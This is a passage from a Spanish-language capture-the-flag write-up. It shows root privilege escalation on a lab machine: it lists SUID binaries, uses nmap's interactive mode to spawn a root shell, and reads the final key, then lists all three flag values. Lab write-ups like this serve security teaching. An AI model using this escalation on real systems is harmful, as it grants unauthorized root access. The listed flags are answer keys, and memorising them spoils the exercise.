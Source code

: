 Para obtener la última clave, necesitamos acceder como usuario root. Para lograrlo, buscamos archivos en todo el sistema de archivos que tienen el bit de permiso SUID establecido. Los archivos con el bit SUID ejecutan con los permisos del propietario del archivo, en lugar de los del usuario que los está ejecutando
```bash
find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
Observamos que en la lista se encuentra nmap. Vamos a verificar si tiene el modo interactivo. Este modo es peligroso, ya que podemos utilizar esta función para generar un shell con privilegios de root mediante el comando '!sh'
```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```
Después de haber obtenido acceso como root, navegamos a su directorio y observamos que se encuentra la última clave
```bash
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
Con esto ultimo hemos obtenido las tres claves
```bash
key-1-of-3.txt: 073403c8a58a1f80d943455fb30724b9
key-2-of-3.txt: 822c73956184f694993bede3eb39f959
key-3-of-3.txt: 04787ddef27c3dee1ee161b21670b4e4
```